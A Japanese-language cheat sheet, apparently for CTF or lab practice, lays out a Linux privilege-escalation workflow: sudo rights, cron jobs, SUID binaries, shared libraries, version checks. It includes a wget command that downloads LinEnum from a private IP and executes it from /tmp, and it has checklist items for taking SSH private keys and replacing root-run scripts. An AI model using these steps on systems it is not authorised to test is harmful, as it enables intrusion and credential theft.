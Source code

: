 # Linux Privilege Escalation Flow

## 実行フロー
1. sudo -l の実行
2. LinEnum の実行
3. ホームディレクトリの確認
4. Cron の確認
5. SUID / SGID の確認
6. Bash のバージョン確認
7. Sudo のバージョン確認
8. 機密ファイルのパーミッション確認


## 1. sudo -l の実行
### root 権限で実行可能なコマンドが存在する場合
[GTFOBins](https://gtfobins.github.io/) で検索

### ユーザー環境から継承された環境変数が存在する場合
- LD_PRELOAD が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_preload-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)  
- LD_LIBRARY_PATH が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

## 2. LinEnum の実行
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh
cd /tmp && ./LinEnum.sh
```

## 3. ホームディレクトリの確認
- [ ] 他のユーザーは存在するか
- [ ] ディレクトリにアクセスできるか
- [ ] SSH 秘密鍵は取得できるか
- [ ] 手がかりとなるファイルは存在するか
- [ ] フラグとなるファイルは存在するか

## 4. Cron の確認
- [ ] Crontab に怪しいファイルは存在するか
- [ ] 指定方法はスクリプト名 or 絶対パス
- [ ] スクリプトは root 権限で実行されるか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

存在する場合...
### 4-1. 指定方法がスクリプト名（絶対パスでない）の場合
環境変数 PATHの追加は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path)

### 4-2. 指定方法が絶対パスの場合
#### スクリプトの置き換え / 書き換え
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

#### スクリプト内容の確認
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合  
実行されているプログラム（コマンド）の確認
```
strings [FILE]
```

指定方法がコマンド名（絶対パスでない）の場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0)

指定方法が絶対パスの場合
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

#### 読み込まれている共有ライブラリの確認
・環境変数 LD_LIBRARY_PATH が利用できる場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

・環境変数 LD_LIBRARY_PATH が利用できない場合  
読み込みエラーになっている共有ライブラリのうち、ディレクトリ、ファイルのいずれかに書き込み権限がないか確認。

```
ldd [FILE]
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
```

- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

## 5. SUID / SGID の確認
- [ ] 既存の脆弱性（Exim <= 4.84-3 など）は存在するか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

・ディレクトリ、ファイルに書き込み権限がある場合  
共有オブジェクトの利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)

・内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合  
環境変数の利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0)

<!-- <dl>
  <dt>ディレクトリ、ファイルに書き込み権限がある場合</dt>
  <dd>共有オブジェクトの利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8">こちら</a></dd>
  <dt>内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合</dt>
  <dd>環境変数の利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0">こちら</a></dd>
</dl> 
-->

## 6. Bash のバージョン確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E3%82%B7%E3%82%A7%E3%83%AB%E3%81%AE%E4%BB%95%E6%A7%98-1)

## 7. Sudo のバージョン確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E3%83%90%E3%83%BC%E3%82%B8%E3%83%A7%E3%83%B3%E3%82%92%E7%A2%BA%E8%AA%8D)

## 8. 機密ファイルのパーミッション確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E6%A9%9F%E5%AF%86%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%81%AE%E3%83%91%E3%83%BC%E3%83%9F%E3%83%83%E3%82%B7%E3%83%A7%E3%83%B3%E7%A2%BA%E8%AA%8D)


